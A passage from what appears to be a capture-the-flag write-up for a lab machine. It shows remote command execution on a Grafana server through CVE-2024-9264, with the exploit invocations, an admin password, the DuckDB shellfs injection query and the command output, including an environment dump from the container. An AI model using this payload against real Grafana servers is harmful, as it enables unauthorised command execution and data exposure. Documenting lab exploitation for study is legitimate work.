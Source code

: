```
lrwxrwxrwx   1 root root    7 Apr 27  2024 lib -> usr/lib
lrwxrwxrwx   1 root root    9 Apr 27  2024 lib32 -> usr/lib32
lrwxrwxrwx   1 root root    9 Apr 27  2024 lib64 -> usr/lib64
lrwxrwxrwx   1 root root   10 Apr 27  2024 libx32 -> usr/libx32
drwxr-xr-x   2 root root 4096 Apr 27  2024 media
drwxr-xr-x   2 root root 4096 Apr 27  2024 mnt
drwxr-xr-x   2 root root 4096 Apr 27  2024 opt
dr-xr-xr-x 602 root root    0 Sep  2 04:01 proc
drwx------   1 root root 4096 Sep  2 09:05 root
drwxr-xr-x   5 root root 4096 Apr 27  2024 run
-rwxr-xr-x   1 root root 3306 May 14  2024 run.sh
lrwxrwxrwx   1 root root    8 Apr 27  2024 sbin -> usr/sbin
drwxr-xr-x   2 root root 4096 Apr 27  2024 srv
dr-xr-xr-x  13 root root    0 Sep  2 09:45 sys
drwxrwxrwt   1 root root 4096 Sep  2 15:59 tmp
drwxr-xr-x   1 root root 4096 Apr 27  2024 usr
drwxr-xr-x   1 root root 4096 Apr 27  2024 var
```

This line `-rwxr-xr-x   1 root root    0 Apr  4 10:23 .dockerenv` confirms us that we are running inside a Docker container.

`python CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "ls -la ../../../usr/local/bin" http://grafana.planning.htb`

```
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Executing command: ls -la ../../../usr/local/bin
[+] Successfully ran duckdb query:
[+] SELECT 1;install shellfs from community;LOAD shellfs;SELECT * FROM read_csv('ls -la ../../../usr/local/bin 
>/tmp/grafana_cmd_output 2>&1 |'):
[+] Successfully ran duckdb query:
[+] SELECT content FROM read_blob('/tmp/grafana_cmd_output'):
total 48456
drwxr-xr-x 1 root root     4096 Feb 28  2025 .
drwxr-xr-x 1 root root     4096 Apr 27  2024 ..
-rwxr-xr-x 1 root root 49609088 Oct 14  2024 duckdb
```

This confirmed us what type of binaries are available to us. Since we located the `grafana.db` file. But unfortunately this doesn't seems to be the right path since we the pocs we are not able to access the database informations.


`python CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "env" http://grafana.planning.htb`

```
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Executing command: env
[+] Successfully ran duckdb query:
[+] SELECT 1;install shellfs from community;LOAD shellfs;SELECT * FROM read_csv('env >/tmp/grafana_cmd_output 2>&1 |'):
[+] Successfully ran duckdb query:
[+] SELECT content FROM read_blob('/tmp/grafana_cmd_output'):
GF_PATHS_HOME=/usr/share/grafana
HOSTNAME=7ce659d667d7
SHLVL=0
AWS_AUTH_EXTERNAL_ID=
HOME=/usr/share/grafana
AWS_AUTH_AssumeRoleEnabled=true
GF_PATHS_LOGS=/var/log/grafana
GF_PATHS_PROVISIONING=/etc/grafana/provisioning
GF_PATHS_PLUGINS=/var/lib/grafana/plugins
PATH=/usr/local/bin:/usr/share/grafana/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
AWS_AUTH_AllowedAuthProviders=default,keys,credentials
```